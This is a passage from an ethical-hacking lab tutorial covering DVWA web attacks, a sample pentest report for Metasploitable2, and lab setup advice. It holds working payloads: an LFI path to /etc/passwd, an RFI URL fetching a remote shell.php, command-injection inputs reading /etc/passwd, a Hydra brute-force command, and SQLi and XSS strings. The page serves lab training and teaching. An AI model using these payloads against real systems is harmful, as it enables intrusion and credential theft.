The server trusts the request because it came from the victim's authenticated browser.
What it is: The app loads files based on a URL parameter without validating it. You can make it load files from the server (LFI) or from a remote URL (RFI).
LFI — Local File Inclusion:
http://192.168.56.102/dvwa/vulnerabilities/fi/?page=../../etc/passwd
What happens: The server reads /etc/passwd —
exposes all system usernames.
RFI — Remote File Inclusion:
http://192.168.56.102/dvwa/vulnerabilities/fi/?page=http://your-kali-ip/shell.php
What happens: The server downloads and executes your PHP file — full remote code execution.
What happens: The app takes your input and passes it directly to an OS command (like ping). You can append extra commands using shell operators.
xml
127.0.0.1; id
127.0.0.1; cat /etc/passwd
127.0.0.1; whoami
What happens: The server runs:
xml
ping 127.0.0.1; id
The ; separates commands — so id also
runs and its output appears on the page. This is
the same bug class as the Samba
exploit you already ran.
What it is: Automatically trying thousands of username/password combinations until one works. DVWA's login has no rate limiting or lockout at Low level.
Using Hydra from Kali:
xml
hydra -l admin -P /usr/share/wordlists/rockyou.txt \
192.168.56.102 http-get-form \
"/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect."
What happens: Hydra sends thousands of login attempts per second until
it finds admin:password.
DVWA Attack Summary
| Vulnerability | Attack Input | What Attacker Gets |
|---|---|---|
| SQL Injection | ' OR '1'='1 |
All database records, bypass login |
| XSS Reflected | <script>alert(1)</script> |
JS execution, cookie theft |
| XSS Stored | Malicious script saved to DB | Persistent attack on all visitors |
| CSRF | Hidden form on attacker page | Change victim's password silently |
| LFI | ../../etc/passwd in URL |
Read any server file |
| RFI | Remote PHP file in URL | Full remote code execution |
| Command Injection | ; cat /etc/passwd |
Run any OS command |
| Brute Force | Wordlist attack via Hydra | Crack weak passwords |
Why DVWA Matters for Your Portfolio
After completing DVWA you can document each vulnerability in your penetration test report with:
- Screenshot of the attack working.
- The exact payload used.
- CVE or CWE reference.
- Remediation recommendation.
This turns your lab practice into real portfolio evidence that demonstrates hands-on web security skills to employers.
Step 10 — Write Your First Pentest Report
Every real penetration test ends with a formal report. Practising this separates serious learners from casual ones — and makes your portfolio stand out:
# Penetration Test Report **Target:** Metasploitable2 (192.168.56.102) **Tester:** [Your Name] **Date:** [Today's Date] **Environment:** Isolated VirtualBox lab (Host-Only Network) --- ## Executive Summary A penetration test was conducted against Metasploitable2, an intentionally vulnerable Linux server. Critical vulnerabilities were identified and successfully exploited, resulting in full root-level access to the target system. --- ## Findings ### Finding 1 — vsftpd 2.3.4 Backdoor [CRITICAL] - **CVE:** CVE-2011-2523 - **Port:** 21/TCP (FTP) - **CVSS Score:** 10.0 (Critical) - **Description:** vsftpd 2.3.4 contains a malicious backdoor that opens a root shell on port 6200 when triggered. - **Proof:** Shell session obtained as uid=0(root) - **Remediation:** Upgrade vsftpd to 3.0.5 or later. Disable FTP. Use SFTP instead. ### Finding 2 — Samba usermap_script RCE [CRITICAL] - **CVE:** CVE-2007-2447 - **Port:** 445/TCP (SMB) - **CVSS Score:** 9.3 - **Description:** Samba 3.x allows unauthenticated RCE via username shell metacharacter injection. - **Remediation:** Upgrade Samba to 4.x. Restrict SMB access. ### Finding 3 — MySQL Unauthenticated Root Access [HIGH] - **Port:** 3306/TCP - **Description:** MySQL root account has no password set, allowing unauthenticated access to all databases. - **Remediation:** Set a strong MySQL root password. Bind MySQL to localhost only (127.0.0.1). --- ## Attack Timeline 09:00 — Reconnaissance (nmap -sV) 09:15 — vsftpd exploit — root shell obtained 09:25 — Samba exploit — second root shell 09:35 — MySQL unauthenticated login confirmed --- ## Recommendations (Priority Order) 1. Upgrade all software from 2008-era versions 2. Remove bindshell listener on port 1524 3. Restrict network access to management ports 4. Implement strong authentication everywhere 5. Conduct regular vulnerability scanning
Troubleshooting
| Problem | Cause | Fix |
|---|---|---|
| VMs can't ping each other | Wrong network adapter | Confirm both VMs use same Host-Only adapter name |
| Metasploitable2 boots to (initramfs) | VMDK not properly attached | Re-attach VMDK in Settings → Storage |
| msfconsole command not found | Metasploit not installed | Run sudo apt install metasploit-framework on Kali |
| Exploit runs but no session opened | Timing issue | Run exploit again — vsftpd backdoor can be intermittent |
| VirtualBox won't start VMs | VT-x not enabled | Enable Intel VT-x / AMD-V in BIOS |
| Kali VM very slow | Not enough RAM | Increase RAM to 4096 MB in Settings |
| 192.168.56.102 not responding | Metasploitable2 got different IP | Run ifconfig on Metasploitable2 to get actual IP |
Lab Safety Checklist
Before every lab session:
✅ Both VMs set to Host-Only network
✅ Metasploitable2 is NOT connected to NAT or Bridged
✅ You are attacking Metasploitable2 — not any other IP
✅ All activity stays within VirtualBox
After every lab session:
✅ Snapshot both VMs (Machine → Take Snapshot)
Lets you restore to clean state instantly
✅ Power off both VMs when not in use
What to Learn Next
| Skill | Resource | Type |
|---|---|---|
| More Metasploitable2 exploits | docs.rapid7.com/metasploit/metasploitable-2 | Free docs |
| Web app hacking (DVWA) | DVWA at http://192.168.56.102/dvwa | In your lab |
| Guided beginner challenges | tryhackme.com | Free + Paid |
| OSCP preparation | offensive-security.com/pwk-oscp | Paid certification |
| CEH preparation | eccouncil.org/train-certify/certified-ethical-hacker-ceh | Paid certification |
| Metasploit documentation | docs.metasploit.com | Free |
Conclusion
By the end of this tutorial, you have built a fully isolated ethical hacking lab using VirtualBox, Kali Linux, and Metasploitable2, verified network connectivity, performed reconnaissance with Nmap, exploited intentionally vulnerable services, and extended the lab with DVWA for web security practice. More importantly, this setup gives you a safe and legal place to learn how real attacks work, from service enumeration to root access and basic reporting, without touching live systems.
Click to Download (image) the Ethical hacking Practice Workflow in Personal Lab.
{kind=link}
What You Accomplished
Look at everything you built and learned in this single tutorial:
| Step | What You Did | Skill Gained |
|---|---|---|
| Step 1 | Installed VirtualBox | Hypervisor + VM management |
| Step 2 | Imported Kali Linux VM | Attacker OS setup |
| Step 3 | Imported Metasploitable2 | Vulnerable target setup |
| Step 4 | Configured Host-Only Network | Isolated lab networking |
| Step 5 | Verified connectivity with ping | Network troubleshooting |
| Step 6 | Ran Nmap reconnaissance scan | Professional recon technique |
| Step 7 | Exploited vsftpd 2.3.4 backdoor | Real CVE exploitation + Metasploit |
| Step 8 | Samba, MySQL, bindshell exploits | 3 more attack techniques |
| Step 9 | Accessed DVWA web app | Web vulnerability practice |
| Step 10 | Wrote a pentest report | Portfolio documentation |
The Bigger Picture — What This Really Means
Every command you ran in this lab maps directly to real-world penetration testing methodology:
Reconnaissance → nmap -sV (discover what's running)
↓
Exploitation → msfconsole (gain access)
↓
Post-Exploit → id, whoami (confirm access level)
↓
Documentation → pentest report (professional deliverable)
This is the exact workflow used in real engagements — you just followed the same process on a safe, legal target.
Your Lab Is Permanent — Keep Using It
This lab does not expire. Every time you learn a new tool or technique, come back and test it here:
# Your lab is always one command away # Start Metasploitable2 in VirtualBox # Start Kali Linux in VirtualBox # Open terminal in Kali msfconsole # practice new exploits nmap -sV target # practice recon hydra # practice brute forcing nikto -h target # practice web scanning
Take a VirtualBox snapshot of both VMs right now — it lets you restore to a clean state in 30 seconds whenever you break something.
Setting up this lab puts you ahead of the majority of cybersecurity beginners who only watch tutorials without ever running a real command. You did not just read about exploitation — you did it.
The difference between a cybersecurity professional and someone who watches YouTube videos is simple: hands-on practice in a real environment. You now have that environment, permanently, for free.
Keep breaking things. Keep learning. Keep documenting.
Your next exploit is one msfconsole away. 🚀
💡 Found this tutorial helpful? Share it with someone learning ethical hacking. Every professional started exactly where you are right now — with a blank terminal and curiosity.
About Website
DevspireHub is a beginner-friendly learning platform offering step-by-step tutorials in programming, ethical hacking, networking, automation, and Windows setup. Learn through hands-on projects, clear explanations, and real-world examples using practical tools and open-source resources—no signups, no tracking, just actionable knowledge to accelerate your technical skills.
Color Space
Discover Perfect Palettes
Featured Wallpapers (For desktop)
Download for FREE!
.png)
.png)
.png)
.png)
.png)
.png)
Featured Wallpapers (For desktop)
Download for FREE!